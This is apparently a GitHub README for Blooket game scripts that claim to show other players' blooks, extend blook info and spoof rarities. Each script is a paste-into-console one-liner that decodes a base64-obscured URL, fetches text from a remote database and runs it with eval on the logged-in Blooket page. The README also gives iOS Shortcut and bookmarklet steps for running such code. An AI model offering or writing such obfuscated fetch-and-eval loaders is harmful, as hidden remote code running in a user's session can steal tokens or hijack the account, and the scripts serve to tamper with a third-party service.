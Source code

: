
# Blooket Stuff - JS

# blookViewer.js
### See other people's blooks in the form of your own blook page
</br>

Open console (ctrl + shift + j) and paste the following:

```js
fetch(atob('aHR0cHM6Ly9ibG9va2V0LTM0NGM5LWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9ibG9va1ZpZXdlci5qc29u')).then((r) => r.text().then((t)=>eval(JSON.parse(t))))
```


# blookInfoExtender.js
### Show extended info on all of the blooks
</br>

```js
fetch(atob('aHR0cHM6Ly9ibG9va2V0LTM0NGM5LWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9ibG9va0luZm9FeHRlbmRlci5qc29u')).then((r) => r.text().then((t)=>eval(JSON.parse(t))))
```

# spoofer.js
### Show all of the blooks in your blook page along with custom ones as a special rarity

</br>

Open console (ctrl + shift + j) and paste the following:

```js
fetch(atob('aHR0cHM6Ly9ibG9va2V0LTM0NGM5LWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9zcG9vZmVyLmpzb24=')).then((r) => r.text().then((t)=>eval(JSON.parse(t))))
```

## IOS Mobile Devices
Install the shortcuts app through app store (if not already built into device)
Open up app
- Tap on the left tab that says 'Sharesheets'
![F87F7B65-0413-4027-98CF-FBBAB9315790](https://user-images.githubusercontent.com/82774618/143507853-bf8b4ebd-e848-47de-b6a5-2c85deb4a974.jpeg)

- Click the plus sign in the top of the screen (+ icon)
![B2805D19-0D45-4097-ABD4-0B3A9665EC26](https://user-images.githubusercontent.com/82774618/143507877-2ce7531f-3e73-48ac-9fa5-385aab7118eb.jpeg)

- Change the 'Accepts' box to only safari web pages
![3E7BE1A6-5EC5-45DC-8FA3-C163330980DA](https://user-images.githubusercontent.com/82774618/143507962-1fd8ae2b-81dd-4dd6-8936-09c3aa1361f9.jpeg)

- Go into the left box and tap on 'Web', scroll until you find 'Run JavaScript On WebPage'
- Drag out box
![11FABDE7-A552-4DED-8BC2-F0C31805BC36](https://user-images.githubusercontent.com/82774618/143508048-a5b887ff-9c15-47d8-bd50-2a5fb14a078a.jpeg)

- Replace contents with below
![4F0FF222-A6A4-4E4D-A748-366C9B7891D3](https://user-images.githubusercontent.com/82774618/143507710-83a31fd8-d3f7-495e-b5a6-c98832c9d085.jpeg)

- Open up safari, copy the code from the js file, and head to blooket 
- Go to correct page for script
- Tap on the share icon in the top right corner, scroll until you see your shortcut, and run it
![C21BCA66-6269-4E6C-82E4-CE4DD131D718](https://user-images.githubusercontent.com/82774618/143508281-9d6aa128-85c5-4b18-8536-31130bff9c37.jpeg)

### Note! This will work with all scripts and other javascript, so don't delete the shortcut when you're done.


## Bookmarklets 
- Go to any page and create a new bookmark with the favorite icon (star)
- Replace bookmark url with `javascript:`
- Paste fetch script from above 
### When you finish it should look something like:
*`javascript:fetch(atob('base64string')).then((r) => r.text().then(eval))`*
<br>
To run it, head to blooket and click the bookmark



## Issues & Bugs
- Check for any mistakes you may have made 
- If you are certain it is a problem with the code, go to the [**`Issues`**](https://github.com/GooseterV/Blooket/issues/new) tab of the repo and create a new issue
